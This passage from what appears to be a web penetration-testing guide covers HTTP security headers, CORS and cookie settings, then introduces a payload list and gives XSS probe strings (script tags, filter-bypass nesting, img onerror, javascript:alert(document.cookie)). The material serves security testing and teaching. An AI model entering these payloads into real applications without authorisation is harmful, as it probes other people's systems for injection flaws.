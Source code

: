Example: Strict-Transport-Security: max-age=63072000; includeSubDomains; preload

### Caching
**Cache-Control** - Set the cache-control response header to include the “no-store” flag in all responses.

**Expires** - Set the Expires header to a date in the past, or zero, in all responses.

### Information Leak Headers
Remove unneccessary response headers, such as: Server, X-Powered-By, X-AspNet-Version.

### CORS Headers
Do not set Access-Control-Allow-Origin to wildcard or reflect arbitrary origins/subdomains.

https://www.freecodecamp.org/news/exploiting-cors-guide-to-pentesting/

## Cookies
All cookies should have the following attributes: Secure, HttpOnly, SameSite: lax or strict.

https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie

## Payloads Required Section
This payload list is an advanced version of the short payload list. Please watch the video series before attempting these exploits as some of the payloads have a lower success rate and require a deeper understanding of the application's behavior and vulnerable parameters.

While this list was curated from select payloads from my own personal notes(generated over the course of 3 years), most of the payloads can be found in the sources below. Please see the youtube video series where sources are provided in situations where we use direct content from a third party.

[https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

https://book.hacktricks.wiki/en/index.html

https://portswigger.net/web-security/all-topics


## Cross-Site Scripting (XSS)

Best resource for learning more about this vulnerability: [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

Best payload list: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Enter the following payloads into user input fields and see how they are reflected in the application. If the user input is reflected back unencoded and unfiltered, especially in javascript, then XSS is likely.
```
<b>test</b> 
<script>alert(1)</script>
</scriscriptpt><scrscriptipt>alert()</scriscriptpt>
</script><script>alert(1)</script>
“><script>alert(1)</script>
“/><script>alert(1)</script>

<img src=1 onerror=alert(1)>
“/><img src=x onerror=”alert()”/>
<img/src='1'/onerror=alert(0)>

javascript:alert(document.cookie)

x” onerror=alert(1)>
"onload="alert(1)

${alert(1)}
```